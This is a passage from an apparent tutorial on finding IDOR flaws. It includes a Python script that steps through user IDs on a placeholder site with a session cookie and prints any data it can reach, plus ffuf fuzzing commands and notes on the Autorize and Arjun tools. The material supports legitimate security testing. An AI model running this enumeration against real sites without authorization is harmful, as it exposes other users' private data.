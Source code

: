 *2. Using Python for IDOR Automation*

You can also create a Python script to automate IDOR testing. Here’s a simple example:

python
Copy code
import requests

# Define the target URL and session cookies
url = "https://targetsite.com/user/profile?id="
cookies = {
    'session': 'your-session-cookie'
}

# Define the range of IDs to test
for user_id in range(123, 130):  # Adjust range as needed
    response = requests.get(url + str(user_id), cookies=cookies)
    if "unauthorized" not in response.text.lower():  # Check for access
        print(f"IDOR Found! Access to ID {user_id}")
        print(response.text)
    else:
        print(f"Access denied for ID {user_id}")
This script sends requests to https://targetsite.com/user/profile?id=, iterating through different id values and printing the response if it detects unauthorized access.

*3. Using FFUF (Fuzz Faster U Fool) for ID Enumeration*

FFUF is a powerful tool that can help with brute-forcing parameters and discovering IDOR vulnerabilities.

Install FFUF:

bash
Copy code
sudo apt install ffuf
Run FFUF to Fuzz IDs:

bash
Copy code
ffuf -u https://targetsite.com/user/profile?id=FUZZ -w ids.txt -c -mc 200
-u: Specifies the URL to test, where FUZZ is replaced by each entry in the wordlist.
-w: Specifies the wordlist. You can create a list of user IDs you want to test, e.g., 123, 124, 125.
-mc: Match status code 200, which indicates a successful request.
4. Using Tools like Autorize for Session Comparison
To test if a user can access unauthorized data, you can use the Autorize Burp extension, which automates this by comparing responses for different users.

Setup: Open Autorize in Burp Suite and set your User A session token in Autorize’s configuration.
Run Requests: While logged in as User B, make requests to potentially vulnerable endpoints.
Analyze Results: Autorize will highlight any instances where User B’s session could access User A’s data.
5. Further Automation with Tools Like Arjun
Arjun can help automate parameter discovery, which can reveal hidden parameters that may be vulnerable to IDOR.

